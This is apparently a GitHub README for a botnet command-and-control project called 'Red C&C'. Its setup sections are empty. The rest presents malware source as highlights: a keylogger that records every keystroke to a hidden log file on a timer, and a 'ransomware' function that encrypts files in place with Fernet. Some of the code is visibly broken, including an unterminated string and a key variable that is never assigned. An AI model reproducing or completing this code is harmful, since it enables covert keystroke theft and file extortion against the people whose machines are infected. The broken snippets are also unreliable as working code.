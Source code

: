 # Botnet-Command-Control
Explain what our program here!!!

### show how to install VMs & put links to the VM images we used. 

### Show how to initiate Command & Control server & create a symbolic link
```bash
```

## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += ''
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t
		elif key == key.cmd: LOG += ' cmd+'
		else:
			LOG += str(key)

def log_to_file():
	if SYSTEM == 'Linux':
		f = open(LIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	else:
		f = open(WIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	cycle = Timer(SECONDS_TO_LOG, log_to_file)
	cycle.start()

def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations.
```python
def crypto(action, *request):
	key_copy = ''

	def encrypt_it():
		to_encrypt = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf:
				key = Fernet.generate_key()
				key_copy = key
				cipher = Fernet(key)
				cipher_text = cipher.encrypt(data)
				ouf.write(cipher_text)
		return r'File encrypted... Key = ' + key_copy + '. Store this key for decryption.'
	
	def decrypt_it():
		to_encrypt, key = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf: 
				cipher = Fernet(key)
				plain_text = cipher.decrypt(data)
				ouf.write(plain_text)
		return r'File Decrypted...'
	if action == 'encrypt':
		return encrypt_it()
	else:
		return decrypt_it()
```

